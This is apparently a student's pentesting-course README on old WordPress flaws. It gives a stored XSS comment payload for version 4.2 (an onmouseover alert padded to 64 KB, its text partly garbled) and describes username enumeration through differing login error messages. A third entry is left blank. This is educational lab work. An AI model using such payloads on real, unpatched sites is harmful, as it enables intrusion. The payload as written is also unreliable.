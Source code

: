 # Project 7 - WordPress Pentesting

Time spent: 12 hours spent in total

> Objective: Find, analyze, recreate, and document 3 vulnarabilities affecting an old version of WordPress

## Pentesting Report

1. 4.2 - Unauthenticated Corss-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: ![](https://github.com/aragon0118/Week-7-Best-HACKER/blob/master/XSS%20Week%207.gif)
  - [x] Steps to recreate: Commented with the following string and replaced ...[64 KB]... with 65536 A's (characters) 
```
(<a title='x onmouseovlert(unescape(/BEST%20HACKER/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>er=a)
```
  - [ ] Affected source code:
  
2. Username Disclosure (User Enenumeration)
  - [x] Summary: 
    - Vulnerability types: user enumeration
    - Tested in version: 4.2.2
    - Fixed in version: -
  - [x] GIF Walkthrough: ![](https://github.com/aragon0118/Week-7-Best-HACKER/blob/master/Username%20Week%207.gif)
  - [x] Steps to recreate: When you try to login with a non-existent username the error page states "ERROR: Invalid username." Unlike when using known username but wrong password to login the error page states "ERROR: The password you entered for the username **admin** is incorrect."
  - [x] Affected source code:
    - [Link 1](https://www.wpwhitesecurity.com/wordpress-security/wordpress-username-disclosure-vulnerability/)
3. Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
